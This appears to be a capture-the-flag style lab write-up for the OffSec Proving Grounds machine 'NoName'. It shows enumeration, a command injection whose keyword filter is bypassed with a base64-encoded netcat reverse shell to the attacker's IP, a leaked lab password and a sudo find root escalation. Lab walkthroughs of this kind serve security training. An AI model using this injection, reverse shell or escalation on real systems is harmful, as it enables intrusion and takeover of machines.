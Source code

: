 ```yaml
---
title: OffSec PG - NoName
date: 2021-12-19 12:00:00 +0500
categories: [Lab Practice Notes, OffSec Proving Grounds]
tags: [oscp,lab,offsec-proving-grounds]
image:
  path: /assets/img/covers/pg-cover.jpeg
  alt: PG Artwork
---
```


## Enumeration

Machine IP &rarr; `192.168.225.15`

### Network Scan

Nmap scan &rarr; `nmap -A -Pn -p- -T4 -o nmap.txt 192.168.225.15`

OS Detection &rarr;  `os_info`

| **Port** | **Service** | **Other details (if any)**     |
| -------- | ----------- | ------------------------------ |
| 80       | HTTP        | Apache httpd 2.4.29 ((Ubuntu)) |

### Web Scan

GoBuster scan &rarr; `gobuster dir -u http://192.168.225.15 -f -w /home/tanq/installations/SecLists/Discovery/Web-Content/raft-small-words.txt -x html,php,txt`

Directories/files listed &rarr;

- index.php
- icons/
- superadmin.php

---

## Exploitation

Looking at `superadmin.php`, it seems like a ping command and thus may be vulnerable to command injection. Using `;` didn't work, neither did `&&`. `|` did work and using it to print the code of the file like `127.0.0.1 | cat superadmin.php` shows that `";","&&","/","bin","&"," &&","ls","nc","dir","pwd"` are all blocked.

Therefore, escaping the blocks by using

```
127.0.0.1 | `echo bmMudHJhZGl0aW9uYWwgLWUgL2Jpbi9iYXNoIDE5Mi4xNjguNDkuMjI1IDMwMDIK | base64 -d`
```

This gives a shell as the `www-data` user and thus the user flag.

---

## Privilege Escalation

### User

Looking at the `/etc/passwd` file, the users of importance are `root`, `haclabs` and `yash`. Used `find / -type f -user yash 2>/dev/null` to list files owned by `yash` and this prints a file `/usr/share/hidden/.passwd`. Looking at the permissions, it is world readable.

The contents of the file is a password `haclabs1234`. This works for the credentials `haclabs:haclabs1234`. This grants a shell as `haclabs` user. Looking at `sudo -l`, this user can run `/usr/bin/find` as root without any password. Thus, using the command `sudo find . -exec /bin/bash \; -quit`, a root shell can be gained. This gives the root flag.

---
